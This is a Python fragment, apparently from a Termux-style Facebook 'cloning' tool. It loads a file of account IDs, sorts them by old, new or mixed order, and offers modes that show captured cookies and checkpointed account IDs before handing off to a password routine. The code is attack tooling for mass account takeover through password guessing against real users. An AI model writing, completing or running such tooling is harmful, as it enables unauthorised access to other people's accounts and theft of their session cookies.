 #-------------[ CRACK-FROM-FILE ]------------------#
 
def crack_file():
    print('\033[0;91m==================')
    os.system('espeak -a 300 " your file name"')
    print('\033[1;32m[ Put File Example:  /sdcard/Rifat.txt  Etc...]')
    o = input('\033[97;1m[\033[92;1m+\033[97;1m] INPut FILE NAME :\033[92;1m ')
    try:lin = open(o).read().splitlines()
    except:
        print('\033[0;91m==================')
        animation(' [×] FILE NOT FOUND')
        time.sleep(2)
        back()
    for xid in lin:
        id.append(xid)
    setting()
 
#-------------[ PENGATURAN-IDZ ]---------------#
 
def setting():
    print('\033[0;91m=============================')
    print("\033[97;1m[\033[92;1m1\033[97;1m] \033[0;92mCLONING FOR ONLY OLD IDz")
    print("\033[97;1m[\033[92;1m2\033[97;1m] CLONING FOR ONLY NEW IDz")
    print("\033[97;1m[\033[92;1m3\033[97;1m] \033[0;92mCLONING FOR MIX IDz")
    print('\033[0;91m=============================')
    hu = input('\033[97;1m[\033[92;1m+\033[97;1m]CHOOSE :\033[92;1m ')
    if hu in ['1','01']:
        for tua in sorted(id):
            id2.append(tua)
    elif hu in ['2','02']:
        muda=[] 
        for bacot in sorted(id):
            muda.append(bacot)
        bcm=len(muda)
        bcmi=(bcm-1)
        for xmud in range(bcm):
            id2.append(muda[bcmi])
            bcmi -=1
    elif hu in ['3','03']:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    else:
        for bacot in id:
            xx = random.randint(0,len(id2))
            id2.insert(xx,bacot)
    print('\033[0;91m==================')
    print('\033[0;91m==================')
    print("\033[97;1m[\033[92;1m1\033[97;1m] METHOD 1 [\033[0;92mCookies Show \033[0;91mCP ID Not Show\033[1;37m]")
    print("\033[97;1m[\033[92;1m2\033[97;1m] METHOD 2 [\033[0;93mCp id Show\033[1;37m]")
    print('\033[0;91m==================')
    hc = input('\033[97;1m[\033[92;1m•\033[97;1m] CHOOSE : ')
    #os.system("xdg-open https://www.facebook.com/rv.rifat.008")
    if hc in ['1','01']:
        method.append('mobile')
    elif hc in ['2','02']:
        method.append('free')
    else:
        method.append('mobile')
    passwrd()
    exit() 
 